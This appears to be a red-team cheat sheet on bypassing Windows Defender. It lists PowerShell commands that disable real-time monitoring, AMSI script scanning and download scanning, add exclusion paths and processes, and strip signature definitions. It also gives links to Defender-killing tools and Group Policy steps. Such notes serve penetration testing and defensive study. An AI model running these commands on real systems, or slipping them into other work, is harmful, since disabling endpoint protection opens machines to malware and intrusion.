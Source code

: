 ```yaml
---
description: Byapss Windows Defender Antivirus
---
```


# 🟢 Windows Defender Antivirus

### Check status of Defender

```
PS C:\> Get-MpComputerStatus
```

### Disable scanning all downloaded files and attachments, disable AMSI (reactive)

```
PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true; Get-MpComputerStatus
PS C:\> Set-MpPreference -DisableIOAVProtection $true
```

### Disable AMSI (set to 0 to enable)

```
PS C:\> Set-MpPreference -DisableScriptScanning 1
```

### Exclude a folder

```
PS C:\> Add-MpPreference -ExclusionPath "C:\Temp"
PS C:\> Add-MpPreference -ExclusionPath "C:\Windows\Tasks"
PS C:\> Set-MpPreference -ExclusionProcess "word.exe", "vmwp.exe"
```

### Remove signatures

{% hint style="info" %}
if the Internet connection is present, they will be downloaded again
{% endhint %}

{% code overflow="wrap" %}
```
PS > & "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -RemoveDefinitions -All
PS > & "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```
{% endcode %}

### Disable real-time protection (proactive):

```
PS > Set-MpPreference -DisableRealTimeMonitoring $true
```

Disable scanning all downloaded files and attachments, and disable AMSI (reactive):

```
PS > Set-MpPreference -DisableIOAVProtection $true
```

Remove signatures (if Internet connection is present, they will be downloaded again):

```
PS > cd "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0"
PS > .\MpCmdRun.exe -RemoveDefinitions -All
Or
Cmd > "%PROGRAMFILES%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

## Lower Token Integrity

* [https://elastic.github.io/security-research/whitepapers/2022/02/02.sandboxing-antimalware-products-for-fun-and-profit/article/](https://elastic.github.io/security-research/whitepapers/2022/02/02.sandboxing-antimalware-products-for-fun-and-profit/article/)
* [https://github.com/plackyhacker/SandboxDefender](https://github.com/plackyhacker/SandboxDefender)
* [https://github.com/pwn1sher/KillDefender](https://github.com/pwn1sher/KillDefender)
* [https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools)

## Disable Defender

* [https://github.com/mandiant/commando-vm#pre-install-procedures](https://github.com/mandiant/commando-vm#pre-install-procedures)
* [https://github.com/swagkarna/Defeat-Defender-V1.2](https://github.com/swagkarna/Defeat-Defender-V1.2)
* [https://github.com/APTortellini/DefenderSwitch](https://github.com/APTortellini/DefenderSwitch)
* [https://github.com/dosxuz/DefenderStop](https://github.com/dosxuz/DefenderStop)
* [https://gist.github.com/fiercebrute/46e0636c0eaf72dcd3df4e280b6792d6](https://gist.github.com/fiercebrute/46e0636c0eaf72dcd3df4e280b6792d6)
* [http://www.wxxy-sec.com/?p=154](http://www.wxxy-sec.com/?p=154)
* gpedit.msc > _Administrative Templates_ > _Windows Components_ > _Microsoft Defender Antivirus_ > _Real-time Protection_ > _Turn off real-time protection_ > _Enabled_ ✔
* gpedit.msc > _Administrative Templates_ > _Windows Components_ > _Microsoft Defender Antivirus_ > _Turn off Microsoft Defender Antivirus_ > _Enabled_ ✔
